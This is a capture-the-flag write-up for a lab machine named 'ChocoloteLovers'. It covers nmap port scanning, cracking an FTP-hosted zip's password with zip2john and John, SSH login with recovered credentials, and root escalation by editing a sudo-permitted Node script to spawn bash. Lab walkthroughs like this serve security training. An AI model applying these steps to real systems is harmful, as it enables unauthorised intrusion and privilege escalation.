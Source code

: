 # ChocoloteLovers


## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64

```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![alt text](Imagenes/Node_1.png)

We see what appears the file called secretitopicaron.zip.

Similarly, I scanned the SSH port, but didn't find anything important

## Analyzing "secretitopicaron.Zip"

First we need to extract the hash from the .zip file. we use `zip2jonh` tool:

```ruby
zip2john secretitopicaron.zip > hash.txt
```

Once we have successfully extracted the file, our next step is to attempt to crack the password hash contained in the hash.txt file.

```ruby
john --wordlist=rockyou.txt hash.txt
```

```ruby
secretitopicaron.zip/password.txt:password1:password.txt:secretitopicaron.zip::secretitopicaron.zip
1 password hash cracked, 0 left
```

Finally, we obtain the password, `password1` . Now we can try extract secretetitopicaron.zip.
if we extract the file, we obtain a password file.

```ruby
mario:laKontraseñAmasmalotaHdelbarrioH
```

These are possible credentials for the SSH service.


## Intrusion

If we use the new credentials, we can access the SSH service.

![alt text](Imagenes/Node_3.png)


## Privilege Escalation

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for mario on 0730eda13522:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 0730eda13522:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js

```

We can see that we can execute the script in /home/mario, so we can try to edit this file to spawn a shell with root privileges.


Therefore, we need to edit the script with the following code:

```ruby
const { execSync } = require('child_process');
execSync('/bin/bash', {stdio: 'inherit'});

```

Now, we are able to spawn a shell with root privileges if we execute the following:

```ruby
sudo /usr/bin/node /home/mario/script.js
```
![alt text](Imagenes/Node_2.png)

